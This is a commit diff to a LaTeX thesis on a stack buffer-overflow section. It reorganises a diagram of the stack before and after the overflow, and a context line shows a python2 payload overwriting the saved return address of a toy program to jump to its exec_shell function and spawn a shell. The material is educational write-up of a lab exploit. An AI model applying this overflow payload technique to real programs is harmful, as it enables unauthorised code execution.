

Before and after one commit to 0xEval/bsc-thesis, a LaTeX thesis (paper/thesis.tex): part of one column of page 2 of 5 before the commit and part of one column of page 3 of 5 after it, cut at the place of the change. Compiled offline with pdfLaTeX.

Commit message:
buffer overflos ~done

```diff
--- a/paper/thesis.tex
+++ b/paper/thesis.tex
@@ -234,32 +234,6 @@ the procedure prolog or epilog must be called, this involves saving the
 previous variables and allocating space for the new variables; and vice-versa
 when the function exits. The previous FP is pushed, a new FP is created and SP
 operates with respect to its new local variables.
-
-The instruction found at $@0x08048530$ gives the allocated size of the buffer
-100 bytes in hexadecimal. We also located exec\_shell at address $0x80484fb$. Here is the
-state of the stack at this point:To overwrite the return address with the one
-of exec\_shell we need to fill the buffer with $0x6c$ bytes, overwrite SFP with a
-fake value and then the target address. This is the state of the stack after
-our payload:
-
-\begin{lstlisting}
-| <argument>                 |
-| <return address>           |
-| <old %ebp>                 | <= %ebp
-| <0x6c bytes of             |
-|       ...                  |
-|       buffer>              |
-| <argument>                 |
-| <address of buffer>        | <= %esp
-           BEFORE
-
-| <0x80484fb <exec_shell>    |
-| 0x42424242 <fake old %ebp> | "BBBB" in hex
-| 0x41414141 ...             | "AAAA" in hex
-|   ... (0x6c bytes of 'A's) |
-|   ... 0x41414141           |
-           AFTER
-\end{lstlisting}
 
 \textbf{\textit{Procedure:}} in the following example(\ref{lst_overflow})
 the vulnerability comes from a wrong use of \textit{strcpy()}. The target
@@ -289,7 +263,32 @@ Dump of assembler code for function vuln_func:
 $1 = (...) 0x80484fb <exec_shell>
 \end{lstlisting}
 
-\begin{lstlisting}[float=ht]
+To overwrite the return address with the one
+of exec\_shell we need to fill the buffer with $100$ bytes, overwrite
+SFP\footnote{the saved frame pointer (old content of \%ebp) is called SFP} with a
+dummy value and then the target address.
+
+\begin{lstlisting}[aboveskip=\bigskipamount,belowskip=\medskipamount,caption=Stack before and after overflow]
+| <argument>                 |
+| <return address>           |
+| <old %ebp>                 | <= %ebp
+| <0x6c bytes of             |
+|       ...                  |
+|       buffer>              |
+| <argument>                 |
+| <address of buffer>        | <= %esp
+           BEFORE
+
+| 0x80484fb <exec_shell()>   |
+| 0x42424242 <fake old %ebp> | "BBBB" in hex
+| 0x41414141 ...             | "AAAA" in hex
+|   ... (0x6c bytes of 'A's) |
+|   ... 0x41414141           |
+           AFTER
+\end{lstlisting}
+
+
+\begin{lstlisting}[float]
 $ ./simple_overflow "$(python2 -c 'print "A"*0x6c + "BBBB" + "\xfb\x84\x04\x08"')"
 Spawning a shell !
 sh-4.4$
```
Also changed, not shown: paper/thesis.tex (2 more changed lines).
